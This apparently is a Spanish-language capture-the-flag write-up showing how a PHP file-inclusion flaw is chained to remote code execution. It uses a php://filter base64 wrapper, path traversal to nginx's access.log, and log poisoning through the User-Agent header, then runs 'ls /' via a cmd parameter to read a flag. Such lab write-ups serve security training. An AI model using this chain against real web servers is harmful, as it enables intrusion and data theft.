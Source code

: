 # LFI: Información Expuesta -> LFI -> RCE 🔃⚔

La página web que vulneraremos es

![Web.PNG](./assets/10-Decimo/01-Web.PNG)

* Para incluir un **archivo** tenemos el parámetro `?page=[Archivo]`

---

Tras testear múltiples payloads no conseguí información alguna, por lo que ahora, usaremos un `wrapper`, especificamente para obtener el contenido de un archivo en **base64**.

* **URL:** `http://<IP Web>:<Puerto>/index.php?page=php://filter/read=convert.base64-encode/resource=index`

<p align="center">
    <img src="/assets/10-Decimo/02-index.PNG">
</p>

---

Decodemos el contenido obtenido, lo guardamos en un archivo y obtenemos:

* Decodear y guardar en un archivo
    ```bash
    echo "[Contenido en Base64 Obtenido]" | base64 -d > index.php
    ```

* Vemos contenido interesante en `index.php`

<p align="center">
    <img src="/assets/10-Decimo/03-url.PNG">
</p>


* Conseguimos otra ruta en el sistema. 🎯

---

<p align="center">
    <img src="/assets/10-Decimo/04-filter.PNG">
</p>

* Veemos el filtro que se aplica al argumento que se le pasa. 🎈

---

Visitamos la ruta obtenida previamente.

* **URL:** `http://<IP web>:<Puerto>/ilf_admin/index.php?log=system.log`

![Web.PNG](./assets/10-Decimo/05-Web.PNG)

---

Después de fuzzear la página web, vemos esto:

<p align="center">
    <img src="/assets/10-Decimo/06-fuzz.PNG">
</p>

Si por curiosidad lo visitamos
* **URL:** `http://<IP Web>:<Puerto>/ilf_admin/logs/`

<p align="center">
    <img src="/assets/10-Decimo/07-nginx.PNG">
</p>

---

Con la información anterior, veremos si podemos `leer los logs` del servidor nginx. 🏴

* **URL:** `http://<IP Web>:<Puerto>/ilf_admin/index.php?log=../../../../../../var/log/nginx/access.log`


<p align="center">
    <img src="/assets/10-Decimo/08-logs.PNG">
</p>

---

Para lograr un `RCE` haremos un `Log Poisoning` 💀. Para esto interceptaremos una solicitud con **Burp Suite** y cambiaremos la `cabecera User-Agent` por código PHP, el cual nos permitirá ejecutar comandos mediante el parámetro `?cmd=[Comando]`

<p align="center">
    <img src="/assets/10-Decimo/09-burp.PNG">
</p>

---

Ahora ejecutaremos un comando para listar los archivos de la raíz `/`

* **URL:** `http://<IP Web>:<Puerto>/ilf_admin/index.php?log=../../../../../../var/log/nginx/access.log&cmd=ls /`

<p align="center">
    <img src="/assets/10-Decimo/10-ls.PNG">
</p>

---

Por último, leemos el archivo `flag`.txt

<p align="center">
    <img src="/assets/10-Decimo/11-flag.PNG">
</p>